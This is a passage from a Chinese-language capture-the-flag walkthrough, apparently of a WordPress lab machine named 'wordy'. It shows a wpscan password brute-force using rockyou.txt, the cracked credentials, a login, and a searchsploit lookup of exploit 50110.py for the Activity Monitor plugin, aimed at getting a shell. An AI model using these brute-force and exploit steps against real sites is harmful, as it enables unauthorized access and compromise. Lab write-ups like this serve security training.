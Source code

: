 ```
gunzip rockyou.txt.gz
```

![image-20220317135406826](https://gitee.com/xxb667/img/raw/master/img/image-20220317135406826.png)

## 2.3 暴力破解

```
wpscan --url http://wordy/ -U users.txt -P passwords.txt
```

![image-20220317142230402](https://gitee.com/xxb667/img/raw/master/img/image-20220317142230402.png)

得到的用户名和密码

```
用户名：mark
密码：helpdesk01
```



# 3.getshell

## 3.1 登录wordpress

登录wordpress发现只是普通用户 不能上传文件getshell

插件getshell

```
http://wordy/wp-login.php
```

![image-20220317142920174](https://gitee.com/xxb667/img/raw/master/img/image-20220317142920174.png)

![image-20220317142959415](https://gitee.com/xxb667/img/raw/master/img/image-20220317142959415.png)

## 3.2 getshell

kali本地搜索：

```
searchsploit activity monitor
```

![image-20220317143242186](https://gitee.com/xxb667/img/raw/master/img/image-20220317143242186.png)

找到50110.py文件

```
locate 50110.py
```
